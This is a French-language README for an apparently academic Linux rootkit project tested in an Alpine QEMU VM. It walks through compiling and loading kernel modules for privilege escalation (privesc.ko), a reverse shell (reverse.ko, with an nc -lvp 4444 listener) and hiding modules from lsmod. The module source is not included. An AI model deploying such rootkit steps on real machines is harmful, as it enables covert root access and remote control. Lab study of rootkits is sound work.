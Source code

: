 # README - Projet Rootkit Linux

## Partie principale : Lancer l'Alpine avec le Rootkit et le Reverse Shell

1. **Configurer et lancer le système :**

   ```bash
    cd linux-6.10.10/
    mkdir module_root && cd module_root
    touch hello_mod.c && touch Makefile
    vim hello_mod.c
   ```

2. **Compiler les modules :**

   ```MakeFile
    obj-m += hello_mod.o
    obj-m += nouv_mod.o
    KDIR := /home/path/linux-6.10.10
    PWD := $(shell pwd)

    all:
            $(MAKE) -C $(KDIR) M=$(PWD) modules

    clean:
            $(MAKE) -C $(KDIR) M=$(PWD) clean
   ```

3. **On va compiler le kernel depuis le fichier linux-6.10.10 :**

   ```bash
    make -j$(nproc)
    make modules
    sudo make modules_install
   ```

4. **Lancer l'Alpine avec les modules intégrés :**

   ```bash
   sudo ./scriptLancementAlpine.sh linux-6.10.10/arch/x86/boot/bzImage
   ```

### **2. Une fois dans l'Alpine**

1. **Remonter le proc et passer le système en mode lecture/écriture :**

   ```bash
   mount -t proc proc /proc
   mount -o remount,rw /
   ```

2. **Créer un utilisateur pour tester les modules :**

   ```bash
   adduser -h /home/testuser -s /bin/ash -u 1337 testuser
   ```

3. **Préparer la connexion au reverse shell :**

   ```bash
   nc -lvp 4444
   ```

4. **Charger les modules :**
   Rendez-vous dans le dossier contenant les modules, puis exécutez :

   ```bash
   cd lib/
   insmod privesc.ko
   insmod reverse.ko
   insmod hide_modules.ko
   ```

   Après avoir charger le module reverse vous devriez être connecter avec la machine attaquante

5. **Vérifier les modules :**

   - Si vous exécutez `lsmod`, les modules n'apparaîtront pas, car ils sont masqués.

6. **Configurer l'utilisateur :**

   ```bash
   echo 'testuser:x:1001:1001::/home/testuser:/bin/ash' >> /etc/passwd
   echo 'testuser:x:1001:' >> /etc/group
   mkdir -p /home/testuser
   chown -R 1001:1001 /home/testuser
   chmod -R 777 /home/testuser
   ```

7. **Se connecter avec l'utilisateur :**

   ```bash
   su - testuser
   ```

8. **Vérifier les privilèges :**
   En tant qu'utilisateur `testuser`, exécutez :

   ```bash
   id
   ```

   Vous constaterez que vous avez obtenu les privilèges root.

---

## Partie Backup : Lancer l'Alpine avec le Rootkit

### **1. Configurer et lancer le noyau Linux**

1. **Compiler le noyau Linux :**
   Assurez-vous que le noyau est correctement configuré et compilé avant de poursuivre.

### **Prérequis :**

1. **Installer GRUB avant de configurer le système sinon skip vers l'étape 2 :**

   ```bash
   sudo chmod +x install_grub.sh
   sudo ./install_grub.sh
   ```

2. **Configurer et lancer le système :**

   ```bash
   sudo chmod +x setup_system.sh
   sudo chmod +x rootkit_setup.sh
   sudo ./setup_system.sh
   sudo ./rootkit_setup.sh
   ```

3. **Permissions des fichiers :**
   Si des problèmes de permissions surviennent après l'exécution de `setup_system.sh`, utilisez :

   ```bash
   chmod -R 777 /script_nathan/modules_restrited
   ```

4. **Compiler les modules :**

   ```bash
   cd modules/
   make
   ```

   Pour nettoyer les modules :

   ```bash
   cd modules/
   make clean
   ```

5. **Lancer l'Alpine avec les modules intégrés :**

   ```bash
   ./rootkit_setup.sh
   ```

6. **Lancer l'Alpine Linux :**
   Une fois que l'image disque est prête, vous pouvez la lancer avec la commande suivante :

   ```bash
   qemu-system-x86_64 \
       -kernel linux-6.10.10/arch/x86/boot/bzImage \
       -append "root=/dev/sda1 console=ttyS0 init=/bin/sh" \
       -drive file=disk.img,format=raw \
       -nographic \
       -netdev user,id=net0,hostfwd=tcp::5555-:12345 -device e1000,netdev=net0
   ```

   Ou si vous voulez rebuild l'alpine entièrement :

   ```bash
   ./rootkit_setup.sh
   ```

### **Une fois dans l'Alpine**

1. **Remonter le proc et passer le système en mode lecture/écriture :**

   ```bash
   mount -t proc proc /proc
   mount -o remount,rw /
   ```

2. **Créer un utilisateur pour tester les modules :**

   ```bash
   adduser -h /home/testuser -s /bin/ash -u 1337 testuser
   ```

3. **Charger les modules :**
   Rendez-vous dans le dossier contenant les modules, puis exécutez :

   ```bash
   cd lib/
   insmod privesc.ko
   insmod hide_modules.ko
   ```

4. **Vérifier les modules :**

   - Si vous exécutez `lsmod`, les modules n'apparaîtront pas, car ils sont masqués.

5. **Configurer l'utilisateur :**

   ```bash
   echo 'testuser:x:1001:1001::/home/testuser:/bin/ash' >> /etc/passwd
   echo 'testuser:x:1001:' >> /etc/group
   mkdir -p /home/testuser
   chown -R 1001:1001 /home/testuser
   chmod -R 777 /home/testuser
   ```

6. **Se connecter avec l'utilisateur :**

   ```bash
   su - testuser
   ```

7. **Vérifier les privilèges :**
   En tant qu'utilisateur `testuser`, exécutez :

   ```bash
   id
   ```

   Vous constaterez que vous avez obtenu les privilèges root.

---

## Conclusion
